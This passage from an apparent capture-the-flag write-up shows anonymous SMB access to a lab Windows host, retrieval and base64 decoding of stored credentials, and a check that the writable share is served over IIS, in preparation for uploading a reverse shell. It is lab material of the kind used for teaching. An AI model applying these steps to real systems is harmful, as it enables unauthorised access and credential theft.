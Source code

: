 ```bash
❯ smbclient \\\\10.10.30.173\\nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Dec 30 18:11:48 2024
  ..                                  D        0  Mon Dec 30 18:11:48 2024
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

I found and downloaded a file named `passwords.txt`, seems interesting, let's see what's inside.

```bash
❯ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Inside we find what seems like `base64` encoded credentials, let's decode them and see if we are right.

```bash
❯ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d | xargs
Bob - !P@$$W0rD!123
❯ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d | xargs
Bill - Juw4nnaM4n420696969!$$$
```

Seems like we found credentials, let's see if we can authenticate in any service.

I tried to authenticate via `psexec.py`, `CrackMapExec` & `xfreerdp` but nothing worked, so at this point if we check again the `smbScan` report we can see that we can **read & write** the `nt4wrksv` share, so let's check if it's linked to any of the websites, so we might upload a reverse shell.

```bash
|   \\10.10.30.173\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
```

## Gaining a Shell

So let's see if we can see a `nt4wrksv` folder or a `passwords.txt` file in any of the websites.

```bash
❯ curl -v http://10.10.30.173:49663/nt4wrksv/passwords.txt
*   Trying 10.10.30.173:49663...
* Connected to 10.10.30.173 (10.10.30.173) port 49663
* using HTTP/1.x
> GET /nt4wrksv/passwords.txt HTTP/1.1
> Host: 10.10.30.173:49663
> User-Agent: curl/8.11.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Content-Type: text/plain
< Last-Modified: Sat, 25 Jul 2020 15:15:33 GMT
< Accept-Ranges: bytes
< ETag: "65e151719662d61:0"
< Server: Microsoft-IIS/10.0
< X-Powered-By: ASP.NET
< Date: Mon, 30 Dec 2024 17:48:34 GMT
```